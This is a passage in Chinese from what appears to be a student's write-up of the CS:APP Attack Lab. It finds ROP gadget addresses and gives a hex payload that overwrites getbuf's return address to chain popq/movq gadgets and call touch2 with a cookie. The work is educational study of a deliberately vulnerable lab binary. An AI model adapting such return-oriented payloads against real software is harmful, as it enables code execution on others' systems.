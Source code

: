 

![image-20220513175101803](lab3.assets/image-20220513175101803.png)

> - 所以popq %rax指令的地址为0x4019ab
> - movq %rax, %rdi的指令字节为48 89 c7，我们找到了如下函数

![image-20220513175243663](lab3.assets/image-20220513175243663.png)

![image-20220513175346530](lab3.assets/image-20220513175346530.png)

> - 所以movq %rax, %rdi的指令地址为0x4019a2
>
> ```
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> ab 19 40 00 00 00 00 00 //篡改的函数返回地址
> fa 97 b9 59 00 00 00 00 
> a2 19 40 00 00 00 00 00 
> ec 17 40 00 00 00 00 00
> ```
>
> - 总结，栈帧结构如下。
>   - getbuf执行完成后，返回到指令popq %rax的地址，这时候%rsp=%rsp+48，指在cookie位置。这时候代码执行popq %rax，然后再触发retq指令，这时候代码执行到了下图栈帧结构中的movq %rax,%rdi的地址，%rsp指向movq %rax, %rdi的位置，之后又触发ret命令。
>   - 这时候跳到touch2的地址，%rsp指向touch2

栈帧结构：
